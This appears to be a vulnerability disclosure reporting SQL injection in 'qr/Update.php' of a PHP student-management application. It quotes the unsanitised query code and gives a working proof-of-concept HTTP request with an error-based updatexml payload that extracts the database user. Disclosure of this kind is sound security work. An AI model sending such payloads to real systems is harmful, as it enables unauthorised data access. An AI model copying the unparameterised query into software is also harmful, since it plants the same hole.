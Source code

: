 ### Vulnerability file address

`qr/Update.php` from line 38

The incoming $id variable is not filtered, there is sql injection

```php
......
......
......
$id = $_GET['king'];
$sql = "SELECT * FROM student WHERE id = '$id' ";
$query = $conn->query($sql) or die($conn->error);
$row = $query->fetch_assoc();
......
......
......
```

### POC

not exists any precondition

```http
GET /qr/Update.php?king=2'+and+(updatexml(1,concat(0x7e,(select%20user()),0x7e),1))+%23&= HTTP/1.1
Host: www.lms.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

### Attack results pictures

![image-20220702180556340](https://xianyu123images.oss-cn-hangzhou.aliyuncs.com/20220702180556.png)

